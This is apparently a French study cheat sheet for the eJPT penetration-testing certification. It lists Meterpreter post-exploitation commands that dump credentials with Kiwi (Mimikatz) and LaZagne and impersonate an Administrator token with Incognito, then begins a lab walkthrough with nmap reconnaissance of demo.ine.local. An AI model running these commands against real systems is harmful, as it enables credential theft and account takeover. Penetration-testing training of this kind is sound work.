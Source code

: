 ```bash
# Kiwi dans Meterpreter (priorité 1)
load kiwi
creds_all
lsa_dump_sam

# LaZagne via Meterpreter
upload laZagne.exe C:\\temp\\laZagne.exe  
execute -f "C:\\temp\\laZagne.exe" -a "all"

# Incognito dans Meterpreter
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator
```

**🎯 Astuce eJPT** : 
- **Priorité 1** : Unattend.xml et AutoLogon Registry
- **Priorité 2** : Kiwi via Meterpreter (`creds_all`)  
- **Priorité 3** : LaZagne via Meterpreter pour apps tierces
- **Incognito** : Uniquement via Meterpreter pour impersonation !



# Windows NTLM Hash Cracking - Cheatsheet

## Vue d'ensemble
Cette cheatsheet couvre le processus complet de cracking de hashes NTLM sur Windows via l'exploitation d'un serveur BadBlue vulnérable.

## Prérequis
- Machine Kali Linux
- Metasploit Framework
- Base de données PostgreSQL

---

## 1. Reconnaissance initiale

### Test de connectivité
```bash
ping -c 4 demo.ine.local
```

### Scan Nmap basique
```bash
nmap demo.ine.local
```

### Scan de version sur port spécifique
```bash
nmap -sV -p 80 demo.ine.local
```

---